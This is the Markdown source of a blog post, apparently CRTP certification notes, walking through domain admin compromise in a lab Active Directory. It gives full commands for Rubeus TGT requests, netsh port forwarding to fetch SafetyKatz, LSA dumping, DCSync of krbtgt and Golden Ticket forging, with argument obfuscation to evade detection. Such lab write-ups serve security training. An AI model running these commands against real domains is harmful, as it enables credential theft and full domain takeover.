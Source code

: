 ```yaml
---
title: Active Directory (AD) | Exploiting Domain Admin (Part 1)
date: 2024-07-02 00:00:00 +0800
categories: [Cert, CRTP]
tags: [Cert,Active Directory]     ## TAG names should always be lowercase
render_with_liquid: false
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```


## **Step 1: Identifying Machines with Domain Admin Sessions**
To begin our exploitation of domain admin privileges, we first need to identify machines where domain admin accounts are actively logged in. This step is crucial because it allows us to target these machines for further actions, such as stealing tokens or credentials. For this task, we use PowerView, a powerful PowerShell tool that helps in enumerating Active Directory environments. By running the Find-DomainUserLocation command, we can query the Domain Controller to find out which computers have active domain admin sessions. In our example, this command reveals that there is a domain admin session on the dcorp-mgmt server, making it a prime target for our next steps.

```bash
Find-DomainUserLocation
```
![Result](/img/crtp/result6.png){: width="972" height="589" }
_There is a domain admin session on dcorp-mgmt server_

## **Step 2: Extracting Domain Controller Hashes**
In this step, we aim to extract hashes from the domain controller and create a Golden Ticket using Rubeus. A Golden Ticket is a forged Kerberos Ticket Granting Ticket (TGT) that allows an attacker to impersonate any user within the domain, effectively granting near-unlimited access to network resources.

### Start a Process with Domain Admin Privileges
To start, we use an elevated command prompt (Run as administrator) and utilize ArgSplit.bat to encode the asktgt command. This command is part of the Kerberos authentication process, where it requests a TGT for the domain admin account. The TGT is crucial because it allows us to request service tickets for accessing various network resources.

```bash
C:\Windows\system32>C:\AD\Tools\ArgSplit.bat
set "z=t"
set "y=g"
set "x=t"
set "w=k"
set "v=s"
set "u=a"
set "Pwn=%u%%v%%w%%x%%y%%z%"
```

We verify the encoded string to ensure it's correct:
```bash
C:\Windows\system32>echo %Pwn%
asktgt
```

Next, we run Rubeus with the asktgt command using Loader.exe. This step initiates the process of obtaining a TGT for the domain admin account.
```bash
C:\Windows\System32>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

### Copy Loader.exe to the Domain Controller
After acquiring the TGT, we need to copy Loader.exe to the domain controller (dcorp-dc). We use the xcopy command to transfer the file to ensure it's available for our use on the target system.
```bash
C:\Windows\system32>echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y
```

### Use WinRS to Access the Domain Controller
With Loader.exe on the domain controller, we open a remote session to the domain controller using WinRS. This tool allows us to execute commands remotely over the Windows Remote Management (WinRM) service.
```bash
winrs -r:dcorp-dc cmd
```

### Set Up Port Forwarding to download the SafetyKatz
On the domain controller, we set up port forwarding with the netsh interface portproxy command. This step facilitates the download of necessary tools, such as SafetyKatz, by redirecting network traffic to the appropriate address and port.
```bash
C:\Users\svcadmin>netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x
```

### Encode and Execute lsadump::lsa 
Back on the student VM, we use ArgSplit.bat to encode the lsadump::lsa command. This command dumps Local Security Authority (LSA) secrets from memory, including password hashes.
```bash
C:\Windows\system32>C:\AD\Tools\ArgSplit.bat
[!] Argument Limit: 180 characters
[+] Enter a string: lsadump::lsa
set "z=h"
set "y=c"
```

We run the generated commands in the WinRS session on the domain controller to execute SafetyKatz and perform the LSA dump:
```bash
set "Pwn=%o%%p%%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"
C:\Users\svcadmin>C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "%Pwn% /patch" "exit"
```

The output of lsadump::lsa reveals the NTLM hashes and other credentials stored in the LSA:
```bash
mimikatz # lsadump::lsa /patch
```

### Perform a DCSync Attack
To obtain the NTLM hash and AES keys of the krbtgt account, we perform a DCSync attack. This attack simulates the behavior of a domain controller and requests replication of credentials, allowing us to dump password hashes.
```bash
C:\Windows\system32>echo %Pwn%
lsadump::dcsync 

C:\Windows\system32>C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:dcorp\krbtgt" "exit"
```

## **Step 3: Generate and Inject a Golden Tickets**


With the krbtgt hash in hand, we generate a Golden Ticket. A Golden Ticket is a powerful tool in an attacker's arsenal, as it allows for the creation of a forged TGT that can impersonate any user within the domain, granting near-unlimited access. We use ArgSplit.bat to encode the golden command:
```bash
C:\AD\Tools>echo %Pwn%
golden
```

Using Rubeus, we create the Golden Ticket with the necessary parameters, including the krbtgt hash and domain information:
```bash
C:\AD\Tools>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /sid:S-1-5-21-719815819-3726368948 /ldap /user:Administrator /printcmd
```

Finally, we inject the Golden Ticket into the current process to gain persistent domain admin access. This is confirmed by checking the username and computer name in the remote session, ensuring we have full administrative control over the domain controller:
```bash
C:\AD\Tools>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948 /pwdlastset:"11/11/2022 6:34:22 AM" /minpassage:1 /logoncount:35 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
```

Confirm the Golden Ticket injection:
```bash
[+] Ticket successfully imported!
C:\AD\Tools>winrs -r:dcorp-dc cmd
Microsoft Windows [Version 10.0.20348.2227]
(c) Microsoft Corporation. All rights reserved.
C:\Users\Administrator>set username
USERNAME=Administrator
C:\Users\Administrator>set computername
COMPUTERNAME=DCORP-DC
```

